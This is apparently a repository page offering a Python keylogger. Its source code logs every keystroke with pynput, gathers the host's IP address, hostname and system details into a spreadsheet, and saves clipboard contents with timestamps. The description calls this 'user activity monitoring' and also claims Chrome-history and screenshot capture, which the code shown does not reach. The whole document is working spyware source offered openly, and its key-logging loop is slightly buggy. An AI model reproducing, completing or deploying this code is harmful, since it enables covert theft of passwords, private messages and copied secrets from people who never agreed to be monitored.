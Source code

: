 # keylogger
Tracks keystrokes (pynput.keyboard), recording in a text file for user activity monitoring. Gathers system info (socket, platform, pandas), storing in Excel for a comprehensive overview. Captures clipboard (win32clipboard) to retain important snippets in a text file. Retrieves Chrome history (datetime, sqlite3, pandas), also capturing png SC.
from pynput.keyboard import Key, Listener #recording keystrokes
import sqlite3 #get the data from a database
import datetime #get the date
import socket #get computer information
import platform #get computer information
from requests import get #get information from a website
import win32clipboard #get clipboard information
from PIL import ImageGrab #get screenshot
import pandas as pd #manipulate with the aquired data


#records keystrokes and store it in text file
k = []

#function to record the keystroke
def on_press(key):
    k.append(key)
    write_file(k)
    print(key)

#function to write the data to a text file
def write_file(var):
    with open("logs.txt","a") as f:
        for i in var:
            new_var = str(i).replace("'","")
        f.write(new_var)
        f.write(" ")

#function to stop the recording       
def on_release(key):
    if key == Key.esc:
        return False

#listener function
with Listener(on_press = on_press, on_release = on_release) as listener:
    listener.join() 


#gets the computer information and store it in text file

date = datetime.date.today() #get the data

ip_address = socket.gethostbyname(socket.gethostname()) #get the IP address

processor = platform.processor() #get the processor details

system = platform.system() #get the system details
release = platform.release()

host_name = socket.gethostname() #get the host name

# Create a DataFrame with computer information
data = {
    'Metric': ['Date','IP Address', 'Processor', 'System', 'Release', 'Host Name'],
    'Value': [date,ip_address, processor, system, release, host_name]
}
df = pd.DataFrame(data)

# Save the DataFrame to an Excel file
df.to_excel('keystrokes.xlsx', index=False)

#get the clipboard information and store it in text file

def copy_clipboard():
    current_date = datetime.datetime.now()
    with open("clipboard.txt", "a") as f:
        
            win32clipboard.OpenClipboard()
            pasted_data = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard() #get the clipboard data and store it in pasted_data

            f.write("\n")
            f.write("date and time:"+ str(current_date)+"\n")
            f.write("clipboard data: \n "+ pasted_data) #write the clipboard data into the text file
        
copy_clipboard()
